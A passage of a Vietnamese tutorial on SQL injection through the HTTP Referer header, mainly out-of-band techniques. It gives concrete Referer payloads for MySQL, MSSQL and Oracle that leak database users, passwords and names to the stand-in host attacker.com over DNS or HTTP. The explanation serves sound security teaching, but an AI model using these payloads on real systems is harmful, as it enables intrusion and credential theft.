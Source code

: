 **Ưu điểm:**
* Trích xuất dữ liệu nhanh chóng và hiệu quả khi kết quả được trả về trực tiếp trên trang web.
* Có thể được sử dụng để khám phá cấu trúc cơ sở dữ liệu (tên bảng, cột).

**Nhược điểm:**
* Yêu cầu ứng dụng hiển thị kết quả truy vấn, điều này không phải lúc nào cũng khả thi với Referer header.
* Yêu cầu kẻ tấn công phải xác định chính xác số lượng và kiểu dữ liệu của các cột.

### 4.5. SQL Injection Out-of-Band (OOB SQLi)

**Cơ chế hoạt động:** OOB SQLi xảy ra khi kẻ tấn công không nhận được phản hồi trực tiếp từ ứng dụng qua cùng một kênh truyền thông. Thay vào đó, kẻ tấn công buộc ứng dụng (thông qua các hàm hoặc tính năng của cơ sở dữ liệu) gửi dữ liệu đến một điểm cuối từ xa do kẻ tấn công kiểm soát (ví dụ: thông qua yêu cầu DNS hoặc HTTP). Kỹ thuật này chỉ khả thi nếu máy chủ cơ sở dữ liệu có các lệnh hoặc hàm có thể kích hoạt các yêu cầu DNS hoặc HTTP ra bên ngoài.

**Ví dụ payload cụ thể qua Referer (áp dụng từ ví dụ MySQL/MSSQL/Oracle/PostgreSQL):**
* **MySQL:** Để trích xuất phiên bản database, user, và password qua DNS lookup:
    ```
    Referer: ' UNION SELECT load_file(CONCAT('\\\\',(SELECT+@@version),'.',(SELECT+user),'.', (SELECT+password),'.attacker.com\\test.txt'))--
    ```
    * Máy chủ MySQL sẽ cố gắng tải một tệp từ một UNC path, kích hoạt một DNS lookup đến `attacker.com` chứa thông tin nhạy cảm.
* **MSSQL:** Để trích xuất user hệ thống và tên database qua DNS lookup:
    ```
    Referer: '; EXEC('master..xp_dirtree"\\'+(SELECT system_user)+'.'+(SELECT DB_Name())+'.attacker.com\test$"')--
    ```
    * Sử dụng stored procedure `xp_dirtree` để kích hoạt DNS lookup.
* **Oracle:** Để trích xuất user và tên database qua yêu cầu HTTP:
    ```
    Referer: '; SELECT UTL_HTTP.REQUEST('[http://attacker.com/](http://attacker.com/)' || (SELECT user FROM dual) || '.' || (SELECT name FROM v$database)) FROM DUAL;--
    ```
    * Sử dụng gói `UTL_HTTP` để gửi yêu cầu HTTP đến máy chủ của kẻ tấn công.

**Ưu điểm:**
* Rất mạnh mẽ khi không có kênh truyền thông trực tiếp hoặc khi các kỹ thuật khác bị chặn.
* Khó bị phát hiện hơn vì không tạo ra lỗi hiển thị hoặc độ trễ rõ rệt trên ứng dụng.
* Có thể trích xuất dữ liệu ngay cả khi kết quả truy vấn không bao giờ được trả về cho máy khách.

**Nhược điểm:**
* Yêu cầu kẻ tấn công kiểm soát một máy chủ từ xa để nhận callback (DNS/HTTP).
* Cần các hàm cụ thể trong cơ sở dữ liệu để thực hiện các yêu cầu mạng ra bên ngoài, và các hàm này có thể bị hạn chế bởi cấu hình bảo mật.

### Sự phức tạp và đa dạng của khai thác Referer SQLi

Các báo cáo lỗ hổng thực tế đã chứng minh rằng Referer header là một điểm chèn SQL Injection khả thi. Khi phân tích sâu hơn các loại SQL Injection, có thể thấy rằng các kỹ thuật như Time-Based, Boolean-Based, Error-Based, Union-Based và Out-of-Band đều có thể được áp dụng. Mặc dù một số ví dụ payload ban đầu có thể không trực tiếp liên quan đến Referer header mà là các tham số đầu vào khác, nguyên lý cơ bản vẫn nhất quán: bất kỳ đầu vào nào do người dùng cung cấp được nối chuỗi trực tiếp vào truy vấn SQL đều có thể bị thao túng.
